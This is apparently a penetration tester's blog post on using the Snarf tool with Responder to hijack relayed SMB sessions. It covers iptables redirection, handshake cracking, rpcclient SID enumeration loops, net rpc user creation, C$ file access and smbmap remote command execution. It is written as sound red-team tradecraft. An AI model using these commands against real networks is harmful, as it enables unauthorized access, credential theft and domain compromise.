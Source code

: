 ```yaml
---
layout: post
title: SMB Relay with Snarf
subtitle: Making the Most of Your MitM
summary: Leverage Snarf to maximize the value gained from your SMB Relaying, especially without Local Admin
---
```


SMB Relay is a well-known attack that involves intercepting SMB traffic and relaying the NTLM authentication handshakes to a target host. This post assumes you already understand the basics of SMB Relay (if not I *highly* suggest you check out Mark Baggett's SANS post [SMB Relay Demystified and NTLMv2 Pwnage with Python](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)). SMB Relay has hands down been the most frequent foothold I've found on internal network pentests; however, sometimes the users in my broadcast domain don't seem to have Local Administrator rights on any of the targeted hosts or AV is making the process take a lot longer. This is where [Snarf](https://github.com/purpleteam/snarf) comes to the rescue.


I was on an internal pentest once where NBNS/LLMNR traffic was infrequent and administrator rights were limited. After a couple hours of running Responder with Impacket's [smbrelayx](https://github.com/CoreSecurity/impacket/blob/master/examples/smbrelayx.py), I had gotten nowhere on the pathway. None of the poisoned victims were administrators on the targeted hosts. Next I tried Snarf with Responder. Snarf provided NTLM handshakes for every poisoned user, allowed me to enumerate local administrative rights on a number of hosts, and provided me a full domain user list. From this point, I threw the handshakes in John, located a host with excessive administrative rights and ran a one or two guess online password brute force attack. This information eventually led to Domain Administrator rights and access to the crown jewels of the client's sensitive data. The pathway would have taken significantly longer, if it would have even been possible, without Snarf.


Snarf is a tool written in NodeJS by [Victor Mata](http://www.offense-in-depth.com/) and [Josh Stone](http://joshstone.us/) that keeps authenticated sessions alive and allows an attacker to run multiple commands through one successful relay. Snarf waits for the poisoned client to finish its transaction with the server (target), allows the client to disconnect from our host, and keeps the session between our host and the target alive. Now we can run tools through the hijacked session under the privilege of the poisoned user. 


For more info about the inner workings of the tool, check out Victor and Josh's NOLAcon '14 ([slides](http://www.josho.org/software/snarf-nolacon-presentation.pdf) , [demo](https://youtu.be/oBSrcrdRLyA)) and Derbycon 2014 ([video](https://youtu.be/X0S4Uuf3yUs)) presentations.
 

## Installation
Snarf requires nodejs and some attack or tool to get in the middle of an SMB connection. Spiderlabs' [Responder](https://github.com/SpiderLabs/Responder) is my personal favorite tool for this task - clone it as well if you don't already have it.

```plaintext
apt-get install nodejs
git clone https://github.com/purpleteam/snarf.git
```

## Usage
Make sure to start SnarfJS prior to any other tools being used for the SMB Relay attack; (such as Responder). This allows SnarfJS to bind to TCP port 445.

```bash
nodejs snarf.js <your-ip> -d <target-ip>
```

Snarf will output the following command to run to set an iptables rule:

```bash
iptables -t nat -A PREROUTING -p tcp --dport 445 -j SNARF
```

After running the iptables command, navigate in a browser to *127.0.0.1:4001*.

![Expiring a session](/assets/snarf/control.png)

In the top left, under Control, you can change the targeting mode from a single target to multiple targets. When this mode is enabled, SMB connections will be sent round robin at the targets in the list. This is a good method for determining local admin group members on hosts within your broadcast domain.

When a session comes in, it will initially be unavailable for interaction. This is because the victim is still communicating with the target. To make any active session available for selection, click Expire.

![Expiring a session](/assets/snarf/snarf-demo.gif)

You may notice the Hash column above. This is the MS-CHAP authentication handshake used to authenticate to the target. MS-CHAP handshakes cannot be passed like a full NTLM hash; however, we can try to crack the hash. If the authentication protocol is NTLMv1, you can try to use rcracki and rainbow tables to recover the plaintext password. See Foofus' [LM/NTLM Challenge/Response Authentication](http://h.foofus.net/?page_id=63) post for more details. Note that this attack will not work if the users' password is 15 or more characters and/or LM hashing is disabled. If the authentication protocol is NTLMv2, you can use john or oclhashcat to try and crack the password.


Now we have a working session that we can run tools through to investigate the target host and get code execution on if we have local admin rights.


## Tools

To use tools with Snarf, we will point the tool at localhost and enter any text as the username and password options. Snarf will listen for the connection, strip out the authentication details, redirect the tool to the target, and use the currently selected session's privileges. 

### rpcclient

*rpcclient* is a very useful tool in this attack, given the kinds of information that can be harvested. For more commands and ideas, check out these great posts:

* [more with rpcclient](http://carnal0wnage.attackresearch.com/2010/06/more-with-rpcclient.html) - Chris Gates
* [more of using rpcclient to find usernames](http://carnal0wnage.attackresearch.com/2007/08/more-of-using-rpcclient-to-find.html) - Chris Gates
* [Plundering Windows Account Info via Authenticated SMB Sessions](https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions) - Ed Skoudis

Useful Commands:

* lsaenumsid - get some SIDS for further enumeration
* lookupsids - turns SID into username
* queryuser RID - query user information
* getdompwinfo - enumerates password info
* enumdomusers - enumerates domain users
* enumalsgroups builtin - enumerates local groups 


**Enumerate Local Admins:**

```bash
enumalsgroups builtin
queryaliasmem builtin [RID] (ie queryaliasmem builtin 0x220)
lookupsids [SID]
```

**Enumerate Domain Users and Groups:**

(Based on a [tweet by Victor Mata](https://twitter.com/offenseindepth/status/551819778957266948))

*Replace the ##s with appropriate SID info*

```bash
for ((i=0;i<=1100;i++)); do rpcclient -U blah -N -c "lookupsids S-1-5-21-##-##-##-$i” 127.0.0.1 | tee -a domain-enum.txt; done
```

*NOTE: If you get timeout errors, throw `&& sleep 1` before `; done` to sleep for a second between attempts. *

**Enumerate Domain/Local Password Policy:**

```bash
rpcclient -W <workgroup|domain> -U user%pass localhost -c "getdompwinfo"
```

### net *

Use the base command of `net -U user%pass -I 127.0.0.1` with any of the following net commands

Useful commands:

* rpc group list - list local groups
* rpc group MEMBERS "Administrators" - list local admins 
* rpc user - list all users
* rpc user info <user> - list domain groups for specified user
* rpc user add <name> <password> [-F <user flags>] - add user
* rpc user delete <user> - delete user
* rpc share <host> - list shares on target host

*Note: Accessing any hidden shares, like C$, or user account changes require local administrative rights.*

### smbclient
See the [man page](https://www.samba.org/samba/docs/man/manpages/smbclient.1.html)

Connect to the target through Snarf:

```bash
smbclient \\\\127.0.0.1\\C$
```

All the normal Windows directory navigation works: `cd`, `dir`, and `ls`.

You can also upload/download files:


```plaintext
get <remote file name> [local file name]
put <local file name> [remote file name]
```

*Note: Accessing any hidden shares, like C$, require local administrative rights.*

### smbmap
[smbmap](https://github.com/ShawnDEvans/smbmap) is an SMB enumeration and interaction tool that can find weak share permissions and execute commands in a PSExec-like fashion. Note that this execution style writes to disk, so it may not fly on a Red Teaming engagement.

```bash
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" /domain'
```

*Note: Accessing the C$ share or executing commands through any hidden shares require local administrative rights.*

## Final Thoughts

Snarf is an awesome tool to use on internal pentest/red team engagements due to its poison once, exploit many abilities. This means a tester could stand up Snarf and Responder, poison one user, kill Responder, and enumerate a lot of information about the target domain with very minimal end-user impact. Personally, I feel like the next steps in using this tool are to determine, or create, a method to get remote code execution leveraging these tools without touching disk, allowing for usage on red team engagements.